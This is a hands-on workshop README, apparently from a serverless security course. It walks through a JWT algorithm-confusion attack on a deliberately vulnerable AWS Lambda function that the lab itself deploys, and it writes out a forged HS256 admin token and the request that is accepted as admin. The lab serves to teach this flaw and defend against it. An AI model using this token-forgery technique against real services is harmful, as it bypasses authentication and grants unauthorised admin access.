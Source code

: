# Algorithm Confusion

You can read more about this flaw here: 
* [CVE-2017-11424](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=873244)
* [Auth0 Blog](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)


**Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](aws-configure/README.md) under the `Setup` section*

## Instructions
* Step 1: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 2: Now run `pipenv shell`

```commandline
pipenv shell
```

* Step 3: In your image, navigate over to `/root/labs/Serverless-Workshop/Algo-Confusion`

```commandline
cd /root/labs/Serverless-Workshop/Algo-Confusion
```

* Step 4: Run `sls plugin install -n serverless-python-requirements`

```commandline
sls plugin install -n serverless-python-requirements
```

* Wait for instructor to explain the contents of the lab

* Step 5: Let's look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/Algo-Confusion/serverless.yml)

* Step 6: Deploy the function with the command `sls deploy`

```commandline
sls deploy
```

* Wait for the function to deploy completely. you should see something like this: 

```bash
Serverless: Stack update finished...
Service Information
service: we45-sls-workshop-algo-confusion
stage: dev
region: us-west-2
stack: we45-sls-workshop-algo-confusion-dev
resources: 18
api keys:
  None
endpoints:
  GET - https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
  GET - https://XXXXXX.execute-api.us-west-2.amazonaws.com/dev/verify
functions:
  init-algo: we45-sls-workshop-algo-confusion-dev-init-algo
  verify-algo: we45-sls-workshop-algo-confusion-dev-verify-algo
```

* Step 7: Now run

```bash
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
```

You should get a response like so: 

```json
{
    "token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImF1dGhlbnRpY2F0ZWQiOmZhbHNlfQ.Nz39CRtIFrCsX76B9Dq0aEOSsWQ9UwDFNqla1Xj1PHiIOSh0WFcJHWEO1NF7YKq6Uv8C__tKQA2fg3qH_m7gLSLkQSf2eGRAubJXMU2XRRlkhMKvI6iksEnjUBvRAbt_UhN5mDcXHjBpX_1q2wadmVbiBz6YkfkffdTMas7ywLFK43tKvL9Iw32fRgoP__K93EaYdvT8Wxm0LdMU_RxmBqjrf4nwTrGynwoWqc2ZRKYa7tZMNCGNIEiNQxK1b4p39MpZqwhIVkFsFMNwd_jECE0nfzcskTQdtZG4KC1WLSnOB7XNjWwAM_NUujCp_sB_iTcEGQlBfo-Oxx5yULXSBA"
}
```

* Step 8: In your image, navigate over to `/root/labs/Serverless-Workshop/`

```commandline
cd /root/labs/Serverless-Workshop/
```

* Step 9: Run `pip3 install pipenv`

```commandline
pip3 install pipenv
```

* Step 10: `pipenv shell`

```commandline
pipenv shell
``` 

```commandline
pipenv install pyjwt
``` 

```commandline
pipenv install huepy
```


* Step 11: In your image, navigate over to `/root/labs/Serverless-Workshop/Algo-Confusion`

```commandline
cd /root/labs/Serverless-Workshop/Algo-Confusion
```

* Step 12: Now run `python token_gen.py public.pem`

```commandline
python token_gen.py public.pem
``` 
* You should see a response like so

```bash
[+] Token is:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJhdXRoZW50aWNhdGVkIjp0cnVlfQ.kdps5gagmmxBnnwtAIuEtJBMu6rWjG8wY4V2X9jlfOM
``` 

* Step 13: Copy the token and run: 

```bash
http GET https://XXXXXX.execute-api.us-west-2.amazonaws.com/dev/verify Authorization:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJhdXRoZW50aWNhdGVkIjp0cnVlfQ.kdps5gagmmxBnnwtAIuEtJBMu6rWjG8wY4V2X9jlfOM
```

* You should see a response like this: 

```bash
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 40
Content-Type: application/json
x-amzn-RequestId: e66e15fb-b1b2-11e9-8818-53f47d545fa4

{
    "authenticated": true,
    "user": "admin"
}
```

### Teardown

* Step 14: In your image, navigate over to `/root/labs/Serverless-Workshop/Algo-Confusion`

```commandline
cd /root/labs/Serverless-Workshop/Algo-Confusion
```

* Step 15: Run `sls remove --force` to remove stack

```commandline
sls remove --force
```

* Step 16: Deactivate `pipenv` using `deactivate` command

```commandline
deactivate
```

```commandline
exit
```